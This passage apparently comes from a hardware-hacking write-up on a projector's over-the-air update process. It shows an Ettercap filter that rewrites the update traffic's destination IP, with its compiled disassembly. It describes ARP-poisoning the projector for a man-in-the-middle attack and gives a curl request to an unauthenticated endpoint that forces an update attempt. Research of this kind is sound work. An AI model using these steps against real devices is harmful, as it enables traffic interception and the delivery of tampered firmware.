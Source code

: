 And then, we can compile the filter, and dump out the "assembly" for it to confirm the logic:

```bash
sudo etterfilter -d -o test.ef test.ecf

????&&&=#+#????+----?;?;?;?;=!
etterfilter 0.8.3.1 copyright 2001-2020 Ettercap Development Team


 14 protocol tables loaded:
	DECODED DATA udp tcp esp gre icmp ipv6 ip arp wifi fddi tr eth 

 13 constants loaded:
	VRRP OSPF GRE UDP TCP ESP ICMP6 ICMP PPTP PPPOE IP6 IP ARP 

 Parsing source file 'test.filter'  done.

 Unfolding the meta-tree  done.

 Converting labels to real offsets  done.

 Writing output to 'test.ef'  done.

 -> Script encoded into 9 instructions.


$ sudo etterfilter -t test.ef

etterfilter 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Content filters loaded from test.ef...
Disassebling "test.ef" content...

0000: TEST level 3, offset 12, size 4, == 167772387 [0xa0000e3]
0001: JUMP IF FALSE to 0009
0002: TEST level 3, offset 16, size 4, == 738067100 [0x2bfe029c]
0003: JUMP IF FALSE to 0009
0004: TEST level 3, offset 9, size 1, == 6 [0x6]
0005: JUMP IF FALSE to 0009
0006: TEST level 4, offset 2, size 2, == 8000 [0x1f40]
0007: JUMP IF FALSE to 0009
0008: ASSIGNMENT level 3, offset 16, size 4, value 167772278 [0xa000076]

 9 instructions decoded.
```

Let's load the filter into Ettercap, start a simple Python server using `python3 -m http.server 8000`, and restart the projector. Once the projector came back online, I conducted a spoof attack again (using Ettercap), saw the connection go through, and actually saw that Ettercap modified it. However, I didn't get any connections on my Python server. I'm not very sure why this is happening.

As a quick aside, while I was doing all of this, I was realizing that this attack vector is fairly limited, i.e. you have to wait for the projector to come online, ARP Poison the projector to start a MITM attack, and catch the OTA logic that only happens on startup. Until I found an endpoint that forces the device to attempt an OTA: `curl http://10.0.0.227/cgi-bin/ota_start.cgi -X POST --data-raw 'updatetxt=1'`. Now we can hit that whenever we want while we test our scripts.
